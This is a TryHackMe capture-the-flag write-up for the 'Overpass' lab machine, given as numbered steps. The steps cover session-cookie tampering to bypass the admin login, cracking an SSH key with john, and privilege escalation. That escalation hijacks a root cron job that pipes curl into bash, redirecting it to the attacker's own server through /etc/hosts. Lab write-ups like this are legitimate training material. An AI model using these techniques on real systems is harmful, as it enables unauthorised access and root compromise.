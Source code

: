 ```yaml
---
title: "Overpass"
author: "Divyanshu Sharma"
date: 2022-11-28
permalink: /tryhackme/overpass
tags: tryhackme
---
```

## **Machine IP**
> 10.10.161.104

## Inference
1. Found http and ssh running on the machine.
2. Used gobuster to find directories on the ip and found an admin portal.
3. The admin portal is using a javascript in backend to communicate the server.
4. Changed the javascript file `Cookies.set("SessionToken",statusOrCookie)` to `Cookies.set("SessionToken","")`, this will change the cookie to desired admin-cookie. 
5. We are in.
6. Page shows private RSA Key which is  a SSH Key.
7. We will copy the complete key and save it as `id_rsa`.
8. Then we will convert in into hash by 
```console
/usr/share/john/ssh2john.py id_rsa > id_rsa.hash
```
9. Then we will crack the hash by 
```console
john --wordlist=/usr/share/wordlist/rockyou.txt id_rsa.hash
```
10. Found the password *james13*.
11. Used the key to login by 
```
chmod 600 id_rsa && ssh -i id_rsa john@10.10.161.104
```
12. We are in and got user flag in `user.txt`.
13. We will download linpeas on aur host machine by 
```console
wget https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/linPEAS/linpeas.sh
```
and will roll up a python https server in the same directory by 
```console
python3 -m http.server
```
14. Then we will download linpeas with 
```console
wget http://{your ip}:8000/linpeas.sh && chmod +x linpeas.sh && ./linpeas.sh
```
15. Found a cron job which can download any script we want as **ROOT** `curl overpass.thm/downloads/src/buildscript.sh | bash`.
16. So we will create a fake buildscript.sh in `downloads/src/buildscript.sh` and add 
```console
cat /root/root.txt > /home/john/stuff.txt
```
script in buildscript.sh. 
17. We will update overpass.thm to our ip in `/etc/hosts`. 
18. Then we will run up new server in directory with `downloads/src/buildscript.sh`.
19. Read stuff.txt in `/home/james` and that is the root.txt.
